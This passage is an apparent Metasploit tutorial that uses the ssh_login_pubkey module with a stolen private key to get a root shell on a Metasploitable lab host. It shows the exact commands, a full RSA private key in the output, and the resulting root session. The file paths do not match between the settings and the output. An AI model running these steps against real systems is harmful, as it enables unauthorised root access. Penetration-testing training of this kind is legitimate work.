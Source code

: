 Set some options, such as the private key file, the username to log in with, and the remote host:

```
msf auxiliary(ssh_login_pubkey) > set KEY_FILE /tmp/r00tprivatekey
KEY_FILE => /tmp/id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login_pubkey) > set RHOSTS 10.0.0.27
RHOSTS => 10.0.0.27
msf auxiliary(ssh_login_pubkey) >
```

### Running the Attack==

Execute the attack, to use the remote machine's private key to gain access to the remote machine:

```
msf auxiliary(ssh_login_pubkey) > run

[*] 10.0.0.27:22 SSH - Testing Cleartext Keys
[*] 10.0.0.27:22 SSH - Testing 1 keys from /root/r00tmsfkey
[+] 10.0.0.27:22 SSH - Success: 'root:-----BEGIN RSA PRIVATE KEY-----
MIIEoQIBAAKCAQEApmGJFZNl0ibMNALQx7M6sGGoi4KNmj6PVxpbpG70lShHQqld
JkcteZZdPFSbW76IUiPR0Oh+WBV0x1c6iPL/0zUYFHyFKAz1e6/5teoweG1jr2qO
ffdomVhvXXvSjGaSFwwOYB8R0QxsOWWTQTYSeBa66X6e777GVkHCDLYgZSo8wWr5
JXln/Tw7XotowHr8FEGvw2zW1krU3Zo9Bzp0e0ac2U+qUGIzIu/WwgztLZs5/D9I
yhtRWocyQPE+kcP+Jz2mt4y1uA73KqoXfdw5oGUkxdFo9f1nu2OwkjOc+Wv8Vw7b
wkf+1RgiOMgiJ5cCs4WocyVxsXovcNnbALTp3wIBIwKCAQBaUjR5bUXnHGA5fd8N
UqrUx0zeBQsKlv1bK5DVm1GSzLj4TU/S83B1NF5/1ihzofI7OAQvlCdUY2tHpGGa
zQ6ImSpUQ5i9+GgBUOaklRL/i9cHdFv7PSonW+SvF1UKY5EidEJRb/O6oFgB5q8G
JKrwu+HPNhvD+dliBnCn0JU+Op/1Af7XxAP814Rz0nZZwx+9KBWVdAAbBIQ5zpRO
eBBlLSGDsnsQN/lG7w8sHDqsSt2BCK8c9ct31n14TK6HgOx3EuSbisEmKKwhWV6/
ui/qWrrzurXA4Q73wO1cPtPg4sx2JBh3EMRm9tfyCCtB1gBi0N/2L7j9xuZGGY6h
JETbAoGBANI8HzRjytWBMvXh6TnMOa5S7GjoLjdA3HXhekyd9DHywrA1pby5nWP7
VNP+ORL/sSNl+jugkOVQYWGG1HZYHk+OQVo3qLiecBtp3GLsYGzANA/EDHmYMUSm
4v3WnhgYMXMDxZemTcGEyLwurPHumgy5nygSEuNDKUFfWO3mymIXAoGBAMqZi3YL
zDpL9Ydj6JhO51aoQVT91LpWMCgK5sREhAliWTWjlwrkroqyaWAUQYkLeyA8yUPZ
PufBmrO0FkNa+4825vg48dyq6CVobHHR/GcjAzXiengi6i/tzHbA0PEai0aUmvwY
OasZYEQI47geBvVD3v7D/gPDQNoXG/PWIPt5AoGBAMw6Z3S4tmkBKjCvkhrjpb9J
PW05UXeA1ilesVG+Ayk096PcV9vngvNpLdVAGi+2jtHuCQa5PEx5+DLav8Nriyi2
E5l35bqoiilCQ83PriCAMpL49iz6Pn00Z3o+My1ZVJudQ5qhjVznY+oBdM3DNpAE
xn6yeL+DEiI/XbPngsWvAoGAbfuU2a6iEQSp28iFlIKa10VlS2U493CdzJg0IWcF
2TVjoMaFMcyZQ/pzt9B7WQY7hodl8aHRsQKzERieXxQiKSxuwUN7+3K4iVXxuiGJ
BMndK+FYbRpEnaz591K6kYNwLaEg70BZ0ek0QjC2Ih7t1ZnfdFvEaHFPF05foaAg
iIMCgYAsNZut02SC6hwwaWh3Uxr07s6jB8HyrET0v1vOyOe3xSJ9YPt7c1Y20OQO
Fb3Yq4pdHm7AosAgtfC1eQi/xbXP73kloEmg39NZAfT3wg817FXiS2QGHXJ4/dmK
94Z9XOEDocClV7hr9H//hoO8fV/PHXh0oFQvw1d+29nf+sgWDg==
-----END RSA PRIVATE KEY-----
' 'uid=0(root) gid=0(root) groups=0(root) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Command shell session 1 opened (10.0.0.5:33428 -> 10.0.0.27:22) at 2016-03-26 19:42:50 -0700
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login_pubkey) >
```
Success - we've got a session.
